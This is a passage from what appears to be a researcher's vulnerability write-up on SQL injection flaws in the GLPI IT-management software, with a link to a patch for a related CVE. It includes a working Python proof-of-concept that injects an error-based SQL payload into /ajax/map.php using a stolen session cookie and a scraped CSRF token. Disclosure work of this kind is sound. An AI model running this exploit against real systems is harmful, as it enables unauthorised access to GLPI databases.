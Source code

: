 One can therefore exploit it in the same way as CVE-2024-27096:

```python
import requests
import sys

if len(sys.argv) < 3:
	print("Usage: %s <url> <cookie>" % sys.argv[0])

url = sys.argv[1]
cookie = sys.argv[2]
content = requests.get(url +"/front/preference.php", headers={"Cookie": cookie}).text
csrf = content.find("glpi:csrf_token")
csrf = content[csrf+26:csrf+90]
sqli_result = requests.post(url +"/ajax/map.php", headers = {"Cookie":cookie, "X-Glpi-Csrf-Token":csrf, "Content-Type":"application/x-www-form-urlencoded"}, data={"itemtype":"User", "params[sort][]":"1`,extractvalue(rand(),concat(CHAR(126),database())) -- -"}).text
print(sqli_result)
```

I reported this issue to the vendor and it was assigned the identifier CVE-2024-31456.

## Abusing CVE-2024-29889

Description:
>An authenticated user can exploit a SQL injection vulnerability in the saved searches feature to alter another user account data and take control of it.

Honestly, I analysed the saved searches features, but I miss this clever SQL injection. As it was published, I took a look at the patch, and tried to understand what was going wrong. The [patch](https://github.com/glpi-project/glpi/commit/0a6b28be4c0f848106c60b554c703ec2e178d6c7) was as follows (partial):

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="Code of map.php" src="/assets/res/stuff/CVE-2024-29889-31456/patch_2024_29889.png">
